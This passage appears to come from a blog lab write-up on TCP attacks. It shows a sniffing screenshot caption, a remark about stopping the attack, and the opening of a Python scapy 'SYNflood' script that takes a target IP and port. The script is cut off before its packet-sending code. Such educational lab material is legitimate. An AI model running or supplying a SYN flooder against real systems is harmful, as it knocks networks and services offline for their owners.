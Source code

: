 ![kali4](../assets/images/2025-04-30-tcp-connection/kali4.webp)
_**Figure 51** More sniffing._

To kill the attack just type ctrl+c, in my case after I killed the attack I was able to connect my DG.

{% highlight python %}

#!/usr/bin/env python
#########################################
#
# SYNflood - A multithreaded SYN Flooder
# author: arthurnn
#
#
#########################################
import socket, random, sys, threading
from scapy.all import *

if len(sys.argv) != 3:
	print "Usage: %s <Target IP> <Port>" % sys.argv[0]
	sys.exit(1)

target = sys.argv[1]
port = int(sys.argv[2])

total = 0
conf.iface='en1';#network card XD

class sendSYN(threading.Thread):
	global target, port
	def __init__(self):
		threading.Thread.__init__(self)
	def run(self):